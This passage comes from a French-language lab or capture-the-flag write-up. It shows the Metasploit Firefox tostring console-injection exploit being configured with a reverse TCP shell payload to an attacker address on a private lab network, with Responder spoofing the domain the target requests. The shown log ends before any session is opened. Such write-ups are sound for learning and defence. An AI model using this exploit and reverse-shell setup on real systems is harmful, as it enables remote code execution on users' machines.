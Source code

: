 ## Braconnage de panda roux

Une recherche dans Metasploit des exploits pour Firefox sous Linux ne m'a rien retourné de probant mais une recherche plus générale ressortait le module `firefox_tostring_console_injection`.

La description est la suivante :

>   This exploit gains remote code execution on Firefox 15-22 by abusing  two separate Javascript-related vulnerabilities to ultimately inject 
>   malicious Javascript code into a context running with chrome:// privileges.

Je n'ai pas trouvé d'explications détaillées sur le web mais l'exploitation fonctionne avec l'aide de `Responder` qui usurpe le domaine demandé :

```
msf6 exploit(multi/browser/firefox_tostring_console_injection) > show options

Module options (exploit/multi/browser/firefox_tostring_console_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CONTENT                   no        Content to display inside the HTML <body>.
   Retries  true             no        Allow the browser to retry the module
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  80               yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /                no        The URI to use for this exploit (default is random)


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.79    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Universal (Javascript XPCOM Shell)



View the full module info with the info, or info -d command.

msf6 exploit(multi/browser/firefox_tostring_console_injection) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/firefox_tostring_console_injection) > 
[*] Started reverse TCP handler on 192.168.56.79:4444 
[*] Using URL: http://192.168.56.79/
[*] Server started.
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /safebrowsing/downloads
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/search?q=&sources=Amazon
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /safebrowsing/downloads                                                                                                       
```